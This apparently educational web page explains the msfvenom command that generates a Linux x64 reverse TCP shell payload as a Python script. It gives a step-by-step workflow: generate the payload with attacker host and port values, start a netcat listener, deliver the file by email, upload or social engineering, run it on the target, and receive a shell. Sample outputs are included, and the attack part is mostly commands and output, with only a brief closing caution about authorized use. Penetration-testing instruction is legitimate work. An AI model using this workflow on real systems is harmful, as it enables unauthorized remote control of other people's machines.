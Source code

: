 # msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py


# 👉 Overview

---

### 👀 What ?

msfvenom is a versatile command-line tool that comes bundled with Metasploit, a popular penetration testing framework. The specific command in question, 'msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py', is used to generate a reverse shell payload in Python format that targets a 64-bit Linux system.


### 🧐 Why ?

Understanding this command is crucial for both penetration testers and system administrators. For penetration testers, this knowledge helps in exploiting poorly secured systems by generating a payload that, when executed on the target system, provides a reverse shell to the attacker. For system administrators, understanding these methods is essential to better secure their systems and to identify malicious activities.


### ⛏️ How ?

To use this command, you need to have Metasploit installed on your system. The '-p' switch specifies the payload type, in this case, a reverse TCP shell for a 64-bit Linux system. The 'LHOST' and 'LPORT' are the IP address and port on which the attacker's machine is listening. The '-f py' switch specifies the output format, Python in this case. The '-o revshell.py' switch writes the output payload to a file named 'revshell.py'.


### ⏳ When ?

The use of reverse shell payloads became prominent with the rise in popularity of penetration testing and ethical hacking. The 'msfvenom' tool and similar technologies have been in use for over a decade, aiding both attackers and defenders in their respective tasks.


# ⚙️ Technical Explanations

---

### Overview

A reverse shell is a type of shell where the target machine initiates a connection back to the attacker’s machine. This allows the attacker to bypass firewalls and NAT, as the outbound connection from the target machine is often not blocked.

Using `msfvenom`, part of the Metasploit Framework, you can create a reverse shell payload that can be executed on a target machine. Here's a step-by-step guide on how to create, deploy, and interact with a reverse shell payload.

### Steps to Create a Reverse Shell Payload Using Msfvenom

### 1. Install Metasploit Framework

Metasploit is essential for generating payloads and performing various exploitation tasks. Install it using the following command:

```bash
sudo apt-get install metasploit-framework

```

### 2. Generate the Reverse Shell Payload

Use `msfvenom` to generate a payload. The following command creates a reverse TCP shell payload for a 64-bit Linux system, outputting the payload as a Python script.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f py -o revshell.py

```

Explanation:

- `p linux/x64/shell_reverse_tcp`: Specifies the payload type.
- `LHOST=192.168.1.10`: IP address of the attacker's machine.
- `LPORT=4444`: Port on which the attacker’s machine will listen.
- `f py`: Output format is Python.
- `o revshell.py`: Output file name.

### 3. Start a Listener on the Attacker’s Machine

Use `netcat` (nc) to start a listener on the specified port. This will wait for the connection from the target machine.

```bash
nc -nvlp 4444

```

Explanation:

- `n`: Numeric-only IP addresses (no DNS).
- `v`: Verbose mode, provides more details.
- `l`: Listen mode, for incoming connections.
- `p 4444`: Port number to listen on.

### 4. Transfer and Execute the Payload on the Target Machine

Transfer the generated `revshell.py` payload to the target machine through various means (e.g., email, file upload, social engineering).

On the target machine, execute the payload:

```bash
python revshell.py

```

### Example Workflow

### 1. Generate the Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f py -o revshell.py

```

**Output**:

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of py file: 615 bytes
Saved as: revshell.py

```

### 2. Start the Listener

```bash
nc -nvlp 4444

```

**Output**:

```
Listening on [0.0.0.0] (family 0, port 4444)

```

### 3. Execute the Payload on Target Machine

Transfer `revshell.py` to the target machine and execute it:

```bash
python revshell.py

```

**Listener Output**:

```
Connection received on 192.168.1.20 12345
id
uid=1000(user) gid=1000(user) groups=1000(user)

```

You now have a reverse shell, allowing you to execute commands on the target machine as if you were directly interacting with it.

### Conclusion

A reverse shell allows attackers to gain remote access to a target machine by having it initiate a connection back to the attacker’s machine. Using `msfvenom`, a payload can be generated and deployed to achieve this. It’s crucial to understand that such actions should only be performed in authorized environments, such as penetration testing labs, and always with permission from the system owner. This knowledge helps both security professionals in understanding potential attack vectors and system administrators in securing their systems against such attacks.
